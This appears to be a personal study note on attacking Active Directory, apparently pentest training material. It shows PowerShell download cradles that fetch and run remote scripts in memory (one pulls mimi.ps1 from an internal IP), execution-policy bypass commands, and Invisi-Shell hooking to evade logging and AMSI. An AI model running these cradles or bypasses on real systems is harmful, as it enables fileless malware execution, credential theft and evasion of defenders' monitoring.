 ## Active Directory Structure 
Think AD as an Forest not a Domain. as only forest is considered as [[security boundary]].
OU are managed by group policies.
Its the features that doesnt have any path but vulnerability get patched.
So we gonna attack features.

### Enumeration from RPCclinet
https://www.hackingarticles.in/active-directory-enumeration-rpcclient/

### What are cradles ?
These are like fileless malware that executes inside the memory directly without getting stored on hard drive
**Defence:** AMSI windows.
Ex: 
```powershell
iex(New-Object Net.WebClient).DownloadString('https://webserver/payoad.ps1')
```
So this is a cradle 

In powershell 3 or later we can use 
```powershell
iex(iwr 'https://server/payload.ps1')
```
If you encounter this error:
*iwr : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.*
```powershell
iex(iwr 'http://192.168.43.157:8000/mimi.ps1' -UseBasicParsing)
```



### Tools and techniques
1. ADSI
2. .NET Classes `System.DirectoryServices.ActiveDirectory`
3. Native Executable
4. WMI using Powershell
5. ActiveDirectory Module

### Powershell detection mechanism
1. System-wide transcripton : *every command gets logged along with its output.*
2. Script block logging : *Keywords block like New-Object*  2 Types: Warning level and Verbose level.
3. AntiMalware Scan Interface (AMSI) 
4. Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard) : You cant do or execute anything apart from microsoft own tools.
### Execution Policy
These are not security measure.
Bypasses:
```powershell
powershell -ExecutionPolicy Bypass
powershell -c <cmd> 
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```
### Security Bypasses
1. Use of **Invisi-Shell** for bypassing the security controls in Powershell #detectionBypass 
2. The tool hooks the .Net assemblies
(System.Management.Automation.dll and System.Core.dll) to bypass logging #detectionBypass 
3. It uses a CLR Profiler API to perform the hook.